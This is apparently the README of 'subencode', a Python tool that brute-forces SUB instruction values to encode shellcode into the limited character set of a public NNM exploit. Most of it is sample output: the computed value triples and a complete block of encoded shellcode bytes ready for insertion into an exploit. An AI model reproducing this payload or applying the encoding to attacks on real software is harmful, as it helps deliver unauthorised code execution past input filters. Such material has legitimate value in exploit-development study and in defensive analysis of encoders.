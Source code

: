 # subencode

Goes about solving the NNM exploit's massive amount of bad characters (https://www.exploit-db.com/exploits/5342/)

Instead of using an algorithm to find the correct values to subtract to reach shellcode, it brute forces the values, starting with a random seed.


# Sample Input

'''
python subencode.py goodchars.txt shellcode.txt
'''

# Sample Output

'''
[*] Found 121 good characters out of a possible 256
[*] Successfully grabbed shellcode from file
[*] Trying to reach  0xe7ffe775
 [!] Needs to pass 0xffffffff twice
Three SUBs that reach the value -->  0x67537228   0x58565330   0x58565333
Found in  59023  iterations

[*] Trying to reach  0xafea75af
 [!] Needs to pass 0xffffffff twice
Three SUBs that reach the value -->  0x67494762   0x74662176   0x74662179
Found in  318412  iterations

[*] Trying to reach  0xfa8b5730
 [!] Needs to pass 0xffffffff twice
Three SUBs that reach the value -->  0x79042461   0x46384236   0x46384239
Found in  12265  iterations

[*] Trying to reach  0x3054b8ef
Three SUBs that reach the value --> 0x25091465   0x55511955   0x55511957
0x3054b8ef
Found in  18023  iterations

[*] Trying to reach  0x745a053c
Three SUBs that reach the value --> 0x27013802   0x32526160   0x32526162
0x745a053c
Found in  29054  iterations

[*] Trying to reach  0x2ecd5802
Three SUBs that reach the value --> 0x41020310   0x48185276   0x48185278
0x2ecd5802
Found in  13772  iterations

[*] Trying to reach  0x6a52420f
Three SUBs that reach the value --> 0x45493749   0x28324353   0x28324355
0x6a52420f
Found in  20205  iterations

[*] Trying to reach  0xffca8166
 [!] Needs to pass 0xffffffff twice
Three SUBs that reach the value -->  0x16077809   0x75170347   0x7517034a
Found in  42848  iterations

 ---ENCODED SHELLCODE---
\x25\x41\x4d\x4e\x55\x25\x35\x32\x31\x2a\x54\x58\x2d\x66\x4d\x55\x55\x2d\x66\x4b\x55\x55\x2d\x6a\x50\x55\x55\x50\x5c\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x28\x72\x53\x67\x2d\x30\x53\x56\x58\x2d\x33\x53\x56\x58\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x62\x47\x49\x67\x2d\x76\x21\x66\x74\x2d\x79\x21\x66\x74\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x61\x24\x04\x79\x2d\x36\x42\x38\x46\x2d\x39\x42\x38\x46\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x65\x14\x09\x25\x2d\x55\x19\x51\x55\x2d\x57\x19\x51\x55\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x02\x38\x01\x27\x2d\x60\x61\x52\x32\x2d\x62\x61\x52\x32\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x10\x03\x02\x41\x2d\x76\x52\x18\x48\x2d\x78\x52\x18\x48\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x49\x37\x49\x45\x2d\x53\x43\x32\x28\x2d\x55\x43\x32\x28\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x09\x78\x07\x16\x2d\x47\x03\x17\x75\x2d\x4a\x03\x17\x75\x50
'''
